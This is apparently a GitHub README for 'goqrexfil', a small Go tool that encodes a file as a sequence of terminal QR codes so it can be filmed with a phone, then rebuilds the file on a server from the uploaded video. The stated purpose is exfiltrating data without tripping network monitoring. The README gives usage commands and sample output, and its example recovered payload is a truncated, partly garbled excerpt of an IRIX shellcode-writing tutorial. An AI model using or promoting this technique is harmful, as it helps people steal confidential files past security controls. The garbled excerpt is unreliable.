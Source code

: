 # goqrexfil
 A mini project to exfiltrate data via QR codes - I just like writing code around data exfiltration. 
 
 The whole idea in this one is that the data can be exfiltrated via a different cover channel using video recording device and therefore will not trigger any classic network monitoring alerts.
 
 In a first phase using --client, the code allows to take a file from stdin, cut it in pieces and display chunks as QR codes one at a time in your terminal. This allows you to create a video on your phone, just ensure that you are zooming and have the whole terminal in your focus.
 
 In a second phase using --server, you can use the same code elsewhere on a system you control and run a web server that will allow you to upload your video for processing. We rely on ffmpeg to extract frames from the recording and then a library to extract QR codes from the frames (minus potential duplicates). Finally, the payload is rebuilt from being retrieved by reading the data from the QR codes and a file is created with the original data.
 
# Caveats/TODO
* Currently very Alpha - works well with small text files, almost ok for PDFs/binary format (I need to have more time to debug this)
* Ugly code - I am not a developper, I normally use Python and wanted to try to learn Golang (be nice if you want to help with improving this ugly code)
 
# Example
## Part 1: Convert file into QR codes and video record
1. use goqrexfil in client mode 
2. start a video recording with phone, point at the shell window

Example:
```
➜ cat top.secret.file | ./goqrexfil --client
-= goqrexfil =-
[*] Client mode: ON
[*] Payload is in 8 chunks, video recording time estimate:


---=== 5 seconds to use CTRL+C if you want to abort ===---
```
Start recording a video now, QR codes will be displayed on the console and stop the video at the end.

## Have server ready to receive and process your video
1. use goqrexfil in server mode
2. From your phone, go to your server domain/ip on port 8888 e.g. http://1.2.3.4:8888/ and upload the video:

Example:
```➜ ./goqrexfil -server
-= goqrexfil =-
[*] Server mode: ON
2020/04/25 11:42:15
[*] File received
[*] Frames extracted

public/004.png has payload.. Adding
public/005.png has payload.. Adding

[*] Payload retrieved (Wrote 824 bytes): payload.raw.
[GIN] 2020/04/25 - 11:42:19 | 200 |  4.336634181s |    172.16.0.110 | POST     "/upload"

^C⏎
```

## Retrieving payload
```➜ cat payload.raw
------------|


----|  Intro

Writing shellcode for the MIPS/Irix platform is not much different from writing
shellcode for the x86 architecture.  There are, however, a few tricks worth
knowing when attempting to write clean shellcode (which does not have any NULL
bytes and works completely independent from it's position).

This small paper will provide you with a crash course on writing IRIX
shellcode for use in exploits.  It covers the basic stuff you need to know to
start writing basic IRIX shellcode.  It is divided into the following sections:

    - The IRIX operating system
    - MIPS archstages the MIPS design
      has reflected this on the instructions itself: every instruction is
      32 bits broad (4 bytes), and can be divided most of the times into
      segments which correspond with each pipestage..```
